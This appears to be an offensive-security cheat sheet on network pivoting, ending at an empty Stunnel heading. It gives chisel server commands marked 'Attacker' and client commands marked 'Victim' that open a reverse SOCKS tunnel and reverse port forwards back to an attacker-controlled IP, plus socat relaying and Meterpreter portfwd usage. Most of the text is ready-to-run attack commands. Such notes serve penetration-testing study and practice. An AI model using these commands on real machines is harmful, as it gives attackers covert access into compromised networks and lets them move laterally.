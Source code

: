 
## Chisel

### Chisel Tunneling

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 8080 --reverse
```

Client Side (Victim):
```
chisel-x64.exe client [my_ip]:8080 R:socks 
```

After that use **proxychains** with port 1080 (default).

Aftes version 1.5.0 chisel uses socks5 proxy.

### Chisel Port Forwarding

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 12312 --reverse
```

Client Side (Victim):

```
chisel client [my_ip]:12312 R:[port]:127.0.0.1:[port]
```

## Socat 

### Socat Port Forwarding

```
socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
```

## Metasploit

### Meterpreter Local Port Forwarding

```
portfwd add –l [local_port] –p [exposed_port] –r [target_host]
```

More info about portfwd [here](https://www.offensive-security.com/metasploit-unleashed/portfwd/)

## Stunnel
